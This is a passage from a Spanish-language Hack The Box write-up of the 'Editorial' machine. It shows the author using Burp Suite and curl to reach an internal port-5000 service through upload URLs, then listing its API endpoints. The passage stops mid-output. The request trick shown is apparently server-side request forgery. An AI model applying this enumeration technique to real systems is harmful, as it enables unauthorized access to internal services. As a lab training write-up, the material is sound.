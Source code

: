 encontramos un puerto abierto internamente en la maquina victima, puerto 5000.. vamos a comprobarlo en burpsuite para ver que nos devuelve esta vez.

![](htb-writeup-editorial/editorial10.png)

parece que pasa un tiempo determinado y vuelve a refrescar la url que nos dieron, hay q ser rapidos y listar todo

![](htb-writeup-editorial/editorial11.png)

listo, podemos ver informacion relevante en esta parte.... vemos endpoints con mucha informacion, quiero observar esto desde mi terminal para apreciar la informacion de una mejor manera.

```bash
curl -s -X GET "http://editorial.htb/static/uploads/d378012d-9008-4f49-a460-a8b4c106e7f9"
<!doctype html>
<html lang=en>
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
```

si te sale este error volve a enviar la peticion desde burp... como dije antes la url se refresca o reinicia.. deben haber tareas crontab por detras que hacen que la maquina se reinicie... en fin esto es HTB...

tenemos que ser rapidos.. yyyy pudimos llegar y ver las apis o enpoints

```bash
curl -s -X GET "http://editorial.htb/static/uploads/26c234bf-53fe-4689-84be-c245ba0bbf18" | jq
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
```